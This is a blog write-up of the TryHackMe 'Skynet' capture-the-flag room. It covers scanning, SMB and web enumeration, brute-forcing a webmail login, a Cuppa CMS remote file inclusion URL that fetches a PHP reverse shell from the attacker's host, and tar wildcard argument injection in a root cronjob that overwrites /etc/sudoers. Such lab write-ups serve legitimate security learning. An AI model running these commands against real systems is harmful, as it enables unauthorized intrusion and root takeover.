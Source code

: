 ```yaml
---
title: Skynet Writeup
published: true
---
```

# TryHackMe - Skynet  
___________________________

This room continues my journey down the Offensive Security Path on [TryHackMe](https://tryhackme.com/). This is a Terminator themed room, and I'm excited to see what's in store.

## nmap scan  

The first step is to run a typical nmap scan on the box to see what services are running. Here's the reults of the scan.

```
nmap -sC -sV -oN nmap/skynet_scan.txt 10.10.134.55
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 22:04 CDT
Nmap scan report for 10.10.134.55
Host is up (0.20s latency).
Not shown: 991 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: UIDL TOP SASL AUTH-RESP-CODE CAPA PIPELINING RESP-CODES
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd
|_imap-capabilities: ENABLE more LOGIN-REFERRALS listed post-login IDLE Pre-login ID capabilities LOGINDISABLEDA0001 LITERAL+ have OK IMAP4rev1 SASL-IR
445/tcp  open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1296/tcp filtered dproxy
1999/tcp filtered tcp-id-port
2100/tcp filtered amiganetfs
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m14s, deviation: 2h53m12s, median: 13s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2020-09-05T22:05:03-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-09-06T03:05:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.22 seconds
```  

Looks like we've got `ssh`, `http`, as well as `smb` and `imap`. It also appears that the system is running linux.


## SMB Enumeration  

There's a lot to look at but the first thing I think is interesting is the `smb`, but I'm going to run `enum4linux` to gain some initial knowledge about the shares among other things like usernames.  
<br>
<br>

![](assets/images/skynet/skynet_enum4linux.png)
<br>
<br>

As we can see there's an `anonymous` smb share that we can access. Using `smbmap` we can see what's all located inside of the anonymous file share. From there we can see a file called `attention.txt`.
<br>
<br>

![](assets/images/skynet/skynet_smb.png)
<br>
<br>

```
cat 10.10.29.100-anonymous_attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

The other interesting thing is the directory labeled `logs`. It contains three files, but it appears that only one of the files, `log1.txt`, has anything in it. Opening up the log1.txt reveals a list of what looks like passwords.
<br>
<br>

## Web Enumeration

After trying the passwords on user `milesdyson`'s smb share and getting no luck. I tried my hand at the website running on port 80. I ran gobuster and the site and got the following in return:

```
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/config (Status: 301)
/ai (Status: 301)
/squirrelmail (Status: 301)
```

The `admin` page got us nowhere, but the `squirrelmail` page redirected to a login. Let's see if burpsuite can get us into `milesdyson`'s email.
<br>
<br>

![](assets/images/skynet/skynet_burpintrude.png)
<br>
<br>

`cyborg007haloterminator` looks promising because the response is different from the others. Trying it gains us access to `milesdyson`'s email which has a very interesting email about an `smb` password reset.
<br>
<br>

![](assets/images/skynet/skynet_smbmiles.png)
<br>
<br>

The password for his smb share is )s{A&2Z=F^n_E.B\`. We can login to the smbshare with milesdyson's creds by typing in:

`smbclient //10.10.132.87/milesdyson -U milesdyson`

followed by his password. Inside we see quite the list of pdfs on neural nets and the like. Anyway, there is a directory called `notes` that looks promising. We can `cd` into that and see all kinds of crazy notes, but one of them is `important.txt`. We can grab that file with `get important.txt`. The file contains:
<br>
<br>

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
<br>
<br>

This to-do list shows us that the website has a beta CMS (content management system). That's always a good place to look as an attacker. Navigating to the directory shows us:
<br>
<br>

![](assets/images/skynet/skynet_miles.png)
<br>
<br>

Nothing much going on here either on the page itself or in the source code. I think it's time to run `gobuster` and see what we can find out.
<br>
<br>

```
gobuster dir -u http://10.10.132.87/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o skynet_miles_gobuster.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.132.87/45kra24zxs28v3yd/
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/09 13:41:25 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2020/09/09 13:48:46 Finished
===============================================================
```
<br>
<br>

The only directory that gobuster got a hit on was administrator so we'll take a look there. Once we get there we're greeted with a login to `Cuppa CMS`. Researching Cuppa CMS reveals some vulnerabilities. The most enticing is the remote file inclusion. We can add this to our cuppa loin url in order to call back a shell to our attacking machine.
<br>
<br>

`http://10.10.141.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacking-ip>:<port>/php-reverse-shell.php`
<br>
<br>

![](assets/images/skynet/skynet_initialshell.png)
<br>
<br>

Once on the victim machine I figured out that I can quickly switch to user `milesdyson` with the password recovered from before. From here it's an easy grab for `user.txt`. There's also something interesting going on with the backup script. Checking out crontab it appears to be running every 30 seconds. We should try to hijack this and get a reverse shell as root.
<br>
<br>

![](assets/images/skynet/skynet_su.png)
<br>
<br>

That tar command looks enticing. If we cd into the `/var/www/html` we can construct a script that allows the user milesdyson to run all commands as sudo. As it turns out only the `www-data` user can write to that directory soooo time to switch back to that user and run the following commands (idea for priv esc came from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and from [this article from int0x33](https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e)).
<br>
<br>

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
```
<br>
<br>

After 30 seconds we can run our typical `sudo -l` command and see that we're able to run any command as sudo without a password.
<br>
<br>

![](assets/images/skynet/skynet_sudo.png)
<br>
<br> 
